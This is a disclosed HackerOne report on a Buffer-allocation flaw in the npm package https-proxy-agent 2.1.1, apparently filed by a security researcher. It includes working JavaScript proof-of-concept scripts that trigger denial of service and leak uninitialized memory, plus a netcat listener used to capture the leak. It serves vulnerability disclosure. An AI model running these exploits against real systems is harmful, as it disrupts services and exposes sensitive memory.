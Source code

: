 # `https-proxy-agent` passes unsanitized options to Buffer(arg), resulting in DoS and uninitialized memory leak

## Report Details
- **Report ID**: 319532
- **URL**: https://hackerone.com/reports/319532
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-25T12:56:44.574Z
- **Disclosed**: 2018-04-02T20:49:07.192Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Buffer allocation vulnerability in `https-proxy-agent`.

In setups where `auth` argument is user-controlled, it allows to:
1. cause Denial of Service by trivially consuming all the available CPU resources
2. extract uninitialized memory chunks from the server on Node.js <8.x.

# Module

**module name:** https-proxy-agent
**version:** 2.1.1 
**npm page:** `https://www.npmjs.com/package/https-proxy-agent`

## Module Description

> This module provides an http.Agent implementation that connects to a specified HTTP or HTTPS proxy server, and can be used with the built-in https module.

## Module Stats

114 304 downloads in the last day
1 668 955 downloads in the last week
6 758 891 downloads in the last month

~81 106 692 estimated downloads per year

# Vulnerability

## Vulnerability Description

`https-proxy-agent` passes `auth` option to the Buffer constructor without proper sanitization, resulting in DoS and uninitialized memory leak in setups where an attacker could submit typed input to the 'auth' parameter (e.g. JSON).

The exact line: https://github.com/TooTallNate/node-https-proxy-agent/blob/2.1.1/index.js#L207

## Steps To Reproduce:

### DoS
```js
var url = require('url');
var https = require('https');
var HttpsProxyAgent = require('https-proxy-agent');

var proxy = {
  protocol: 'http:',
  host: "127.0.0.1",
  port: 8080
};

setInterval(() => {
  proxy.auth = 1e9; // a number as 'auth'
  var opts = url.parse('https://example.com/');
  var agent = new HttpsProxyAgent(proxy);
  opts.agent = agent;
  console.time('tick');
  https.get(opts);
  console.timeEnd('tick');
}, 200);
```

Observe how this is consuming memory and CPU — each request takes >1 second in the main thread on my setup.

### Uninitialized memory leak

```js
// listen with: nc -l -p 8080

var url = require('url');
var https = require('https');
var HttpsProxyAgent = require('https-proxy-agent');

var proxy = {
  protocol: 'http:',
  host: "127.0.0.1",
  port: 8080
};

proxy.auth = 500; // a number as 'auth'
var opts = url.parse('https://example.com/');
var agent = new HttpsProxyAgent(proxy);
opts.agent = agent;
https.get(opts);
```

Listen with `nl -l -p 8080` to see requests.

Execute on various Node.js versions — 4.x LTS, 6.x LTS, 8.x LTS / 9.x.

This leaks uninitialized Buffer memory on Node.js <8.x.
On ≥8.x those Buffers (that are using the deprecated API) are zero-filled.

## Supporting Material/References:

- OS: Arch Linux current
- Node.js 9.5.0
- npm 5.6.0
- gnu-netcat 0.7.1

# Wrap up

- I contacted the maintainer to let him know: N
- I opened an issue in the related repository: N

## Impact

Denial of service
Sensitive data leak (on Node.js <8.0)

## Attachments
No attachments
